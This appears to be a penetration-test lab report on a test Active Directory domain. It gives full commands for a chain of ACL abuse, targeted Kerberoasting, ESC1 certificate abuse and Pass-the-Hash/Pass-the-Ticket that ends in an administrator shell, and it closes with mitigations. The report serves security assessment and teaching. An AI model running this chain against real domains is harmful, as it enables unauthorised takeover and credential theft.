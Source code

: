 # Summary
This report summerizes the finding of security assessment. During the penetration test, several high-risk vulnerabilities were identified  in the Active Directory environment, including Active Directory certificate template misconfiguration (ESC1), misconfigured ACLs, exploitable weaknesses via Pass the Hash attack. Recommendations are provided to reduce the attack surface and prevent future attacks.

![diagram](screenshots/logical_diagram.png)

# Enumeration
First of all, Initial reconnaissance is required to collect data that can lead to system compromise, so the enumeration is vital part of pentration testing.

## Nmap
One of the best tool to start the enumeration is the nmap tool. It has a lot of switch so that's like a Swiss army knife.

Once the nmap has finished scanning, we can see a wealth of information about the target. In such cases we have to filtered out the relevant information that could help us to gain an initial foothold. On the output can be observed the DNS name and the environment appears to include internal certificate service.

```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ nmap -sC -sV -sS -Pn -p- -v 10.10.10.1 -oN nmap.txt
```
![nmap](screenshots/nmap.png)


## Bloodhound
```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ bloodhound-python -u 'v.peter' -p '0123456789qwE' -d test.local -ns 10.10.10.1 -c All
```

![bloodhound](screenshots/bloodhound.png)


Bloodhound analysis reveals a valid attack path that enables us to escalate privileges and gain control over a service account.


![bloodhound2](screenshots/bloodhound2.png)


# Abusing DACL
At first, v.peter should be added to service accounts group by abusing GenericALL privilege. At this point we will use bloodyAD tool.

BloodyAD is an open-source tool designed for AD privilege escalation and security testing. It can perform Add/remove users and computers, change/reset passwords, abuse shadow credentials and it's just tip of the iceberg.

```
┌──(kali㉿kali)-[~/Desktop/ad_project/bloodhoundDATA]
└─$ bloodyAD --host 10.10.10.1 -d 'test.local' -u v.peter -p '0123456789qwE' add groupMember 'service accounts' 'v.peter'
[+] v.peter added to service accounts
```


# Targeted Kerberoasting
ACL misconfiguration has been identified during enumeration. Password of ca_svc account can be gained by using Targeted Kerberoasting attack. Now that v.peter is member of service accounts group, we can add an SPN (ServicePrincipalName) to the ca_svc account. Therefore the account will be vulnerable to Kerberoasting. Once the kerberoast hash is obtained, it can be cracked by using hashcat and a proper wordlist.
```
┌──(kali㉿kali)-[~/Desktop/ad_project/targetedKerberoast]
└─$ ./targetedKerberoast.py --dc-ip 10.10.10.1 -v -d 'test.local' -u 'v.peter' -p '0123456789qwE'
```

![targetedKerberoast](screenshots/targetedKerberoast.png)


# Hashcat
```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ hashcat -m 13100 ca_svc_hash SecLists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt
```

The ca_svc account was configured with a highly insecure password `YfDbUfNjH10305070`, which was easily cracked by using a standard wordlist.

# CA 
During enumeration CA, ESC1 vulnerability was indentified by using certipy-ad tool. The ESC1 vulnerablity in the vulnerable_template poses a high-severity risk to the AD environment because low-privileged user can request a certificate and specify arbitrary user within the certificate'SAN. Therefore any user on the AD environment can be impersonated.

ESC1 vulnerability can be arised when the following misconfigurations are set any template.:

- Enrollee Supplies Subject is enabled
- Authentication EKU
- Permissive Enrollment Rights
- No Manager Approval Required


```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ certipy-ad find -u 'ca_svc' -p 'YfDbUfNjH10305070' -dc-ip 10.10.10.1 -stdout
```

![ESC1](screenshots/ESC1.png)



Certificate is requested for administrator.
```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ certipy-ad req -u 'ca_svc@test.local' -p 'YfDbUfNjH10305070' -dc-ip 10.10.10.1 -ca test-DC01-CA -template 'vulnerable_template' -upn Administrator
```


![certipy_req](screenshots/certipy_req.png)


Certificate are used to authenticate to the domain controller as the Administrator. At the end of the authentication, we'll gain the administrator ticket and certipy tool will dump the administrator's NTLM hash for us.
```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ certipy-ad auth -pfx administrator.pfx -username administrator -domain test.local -dc-ip 10.10.10.1
```

![certipy_auth](screenshots/certipy_auth.png)

# Lateral Movement
Impacket is open source collection of modules written in python. These can be used for pentesting and network auditing. Impacket-psexec tool will be used to demonstrate the Pass the Hash and the Pass the Ticket techniques.

## Pass the Hash

NTLM hash can be passed to the domain controller to gain a remote shell.
```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ impacket-psexec test.local/administrator@10.10.10.1 -hashes aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33
```

![PassTheHash](screenshots/Passthehash.png)


## Pass the Ticket
Ticket can also be passed to the domain controller to gain a remote shell.

```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ KRB5CCNAME=administrator.ccache impacket-psexec test.local/administrator@dc01.test.local -k -no-pass
```

![PassTheTicket](screenshots/PassTheTicket.png)


# Mitigation
- Remove all unnecessary GenericALL, GenericWrite rights. 
- To mitigate Targeted Kerberoasting, it's recommended to use gMSA (Group Managed Servive Account), as it provide strong, automatically rotate password.
- To mitigate ESC1 attack, 'Suppy in the request' option have to be removed and change to 'Build from this Active Directory Information' and consider enabling 'CA certificate manager approval' setting.
- To help prevent Pass the Hash attack, disable NTLM authentication vi group policy

